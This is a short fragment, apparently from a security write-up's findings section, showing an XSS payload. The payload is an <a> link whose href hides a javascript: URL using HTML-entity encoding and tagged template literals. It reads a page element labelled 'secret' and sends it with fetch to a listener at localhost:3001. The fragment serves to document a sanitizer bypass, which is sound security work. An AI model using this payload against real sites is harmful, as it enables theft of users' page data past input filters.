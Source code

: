 \section{Findings}
\label{sec:Findings}
Combination of <a> with javascript in href injection, HTML ascii encoding, tagged template literals (line breaks for readability)
\begin{lstlisting}
<a href=j&#97v&#97script&#x3A;
var&#32secret&#32=&#32document.getElementsByName("name")[0]&#46innerHTML;
var&#32data&#32=&#32&#123body:secret,method:'POST'\};
fetch`http:\//localhost:3001/api/ping?secret=$&#123data\}`>ClickMe</a>
\end{lstlisting}
